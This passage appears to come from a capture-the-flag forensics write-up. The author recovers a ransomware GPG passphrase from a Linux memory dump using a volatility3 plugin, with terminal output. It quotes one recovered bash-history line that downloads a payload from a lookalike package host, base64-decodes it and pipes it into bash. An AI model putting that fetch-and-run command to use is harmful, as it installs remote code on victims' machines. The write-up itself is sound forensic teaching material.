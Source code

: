We have tried everything, including retrieving bytes from volshell, until we found out that kudelski actually made a plugin to retrieve gpg passphrases from memory dumps with volatility3!

Excitement, excitement! A few short minutes after finding the github repo for the plugin, Thewhiteh4t managed to get the plugin working and retrieved the 16 chars generated from /dev/urandom from the extracted memory. Then it was just a simple command to decrypt our flag.

That’s when I had the most struggle. For some reason, the plugins were not both working right away for me. I have successfully managed to install fully functioning volatility 2 and 3 on my new kali vm during the ctf, and I was frantically looking for the correct symbols, framework, and plugins dir, until I just went for this:

```
┌──(starlord㉿HAL-9090)-[~/…/volatility3/volatility3/plugins/linux]
└─$ vol -h -vv
...SNIP...
  File "/home/starlord/.local/lib/python3.11/site-packages/volatility3/framework/plugins/linux/gpg_full.py", line 12, in <module>
    from cryptography.hazmat.primitives.keywrap import aes_key_unwrap, InvalidUnwrap
ModuleNotFoundError: No module named 'cryptography'

DEBUG    volatility3.framework: Failed to import module volatility3.plugins.linux.gpg_full based on file: /home/starlord/.local/lib/python3.11/site-packages/volatility3/framework/plugins/linux/gpg_full.py
 ...SNIP...
```

So a simple
`pip3 install cryptography`
solved my issue definitively.

C. Decrypting the files

That’s when another issue rose up: it takes a default starting time of right now.
![](bashic_ransomware_epoch.a15cbf87.png)

Remember this line?
```
440     bash    2023-03-03 20:51:27.000000      curl http://files.pypi-install.com/packages/Kxr43fMD9t.manifest|base64 -d|bash

```

Lets turn this date into unix time (1677876687) and feed it to volatility3 again:

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ vol -f forensics.mem linux.gpg_full.GPGItem --fast --epoch 1677876687
Volatility 3 Framework 2.4.2
Progress:  100.00               Stacking attempts finished                 
Offset  Private key     Secret size     Plaintext
Searching from 03 Mar 2023 20:51:27 UTC to 12 Sep 2023 06:06:55 UTC

0x7f96f0002038  86246ef7da91e80ac9f1587bf8d93e76        32      wJ5kENwyu8amx2RM
0x7f96f0002038  86246ef7da91e80ac9f1587bf8d93e76        32      wJ5kENwyu8amx2RM
```
